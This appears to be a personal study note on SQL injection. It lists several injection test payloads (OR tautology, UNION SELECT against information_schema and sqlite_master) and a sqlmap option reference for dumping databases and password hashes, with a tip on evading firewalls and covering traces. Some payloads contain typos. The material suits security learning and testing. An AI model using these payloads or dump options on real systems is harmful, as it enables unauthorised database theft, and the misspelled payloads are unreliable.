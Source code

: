 ![[Screenshot From 2024-12-19 23-51-09.png]]


## Some test to find SQL injection 
>[!tip]
>`username' OR '1`
>`UNION SELECT NULL;--`
>`username'UNION SELECT 1, GROUP_CONTACT(0x7c,schema_name 0x7c) FROM information_schema.schemata`
>`username'Union Select sqlite_version()''` ==> version exp "3.2.5" 

>[!important]
># username'UNION SELECT sql FROM sqlite_Master


## SQL MAP
>[!note]
># download SQL MAP
>[https://github.com/sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap)

### Basic commands

| **Options**       | **Description**                                       |
| ----------------- | ----------------------------------------------------- |
| -u URL, --url=URL | Target URL (e.g. "http://www.site.com/vuln.php?id=1") |
| --data=DATA       | Data string to be sent through POST (e.g. "id=1")     |
| -p TESTPARAMETER  | Testable parameter(s)                                 |
| --level=LEVEL     | Level of tests to perform (1-5, default 1)            |
| --risk=RISK       | Risk of tests to perform (1-3, default 1)             |
| --banner          | check in every database                               |
### Enumeration commands

| Options              | Description                                    |
| -------------------- | ---------------------------------------------- |
| -a, --all            | Retrieve everything                            |
| -b, --banner         | Retrieve DBMS banner                           |
| --current-user       | Retrieve DBMS current user                     |
| --current-db         | Retrieve DBMS current database                 |
| --passwords          | Enumerate DBMS users password hashes           |
| ==--dbs==            | ==Enumerate DBMS databases==                   |
| ==--tables==         | ==Enumerate DBMS database tables==             |
| ==--columns==        | ==Enumerate DBMS database table columns==      |
| --schema             | Enumerate DBMS schema                          |
| ==--dump==           | ==Dump DBMS database table entries==           |
| --dump-all           | Dump all DBMS databases tables entries         |
| ==-D `<DB NAME>`==   | ==DBMS database to enumerate==                 |
| ==-T `<Table Name`== | ==DBMS database table(s) to enumerate==        |
| ==-C COL==           | ==DBMS database table column(s) to enumerate== |
>[!tip]
>--banner ==> check in every database
>--batch ==> Default answer
>--random-agent ==> covering your trace & pass the firewall & Use randomly selected HTTP User-Agent header value
>--dbms (type of data base)
>--tables ==> tables names
>--columns ==> coulmns names
